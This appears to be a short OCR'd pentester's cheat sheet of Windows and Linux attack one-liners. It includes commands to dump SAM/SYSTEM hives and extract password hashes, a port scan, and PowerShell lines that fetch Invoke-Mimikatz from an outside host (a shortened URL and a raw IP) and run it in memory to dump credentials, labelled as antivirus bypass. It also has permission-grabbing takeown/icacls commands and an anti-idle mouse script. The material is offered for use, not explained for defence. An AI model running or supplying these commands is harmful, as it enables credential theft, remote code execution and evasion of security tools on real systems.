             

local sam dump via shell hash
-------------------

            reg SAVE HKLM\SAM sam
            reg save HKLM\SYSTEM sys
            
            bkhive sys key
            samdump2 sam key > hash
            

smb mount ubuntu
-------------------

            //servername/sharename  /media/windowsshare  cifs  username=msusername,password=mspassword,iocharset=utf8,sec=ntlm  0  0
            
            
             
            
            #autohotkey anti idle moves mouse every 58ish seconds 
            
            #InstallMouseHook
            F7::
            loop, 999 {
            tooltip, WAKEUPFOOL
            MouseMove, -1, 0 , 10, R ;around it's starting position
            sleep,1000
            tooltip,
            sleep, 57000
            }
            
            
            return
             
            # unicornscan ..
            
            unicornscan -L 10  -R 2 -r 1000 -p 21,25,53,80,110,111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 `cat in` 
            
            #mimikatz bypass AV dump creds
            powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"
            powershell "IEX (New-Object Net.WebClient).DownloadString('http://185.12.45.93/scripts/downloaded/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
            powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('computer1', 'computer2')"
            

chown chmod for windows run as system or administrator
-------------------

            takeown /F "%CD%" /R
            
            icacls "%CD%" /GRANT Users:F /T
            cacls "%CD%" /E /T /C /G Users:F
            
            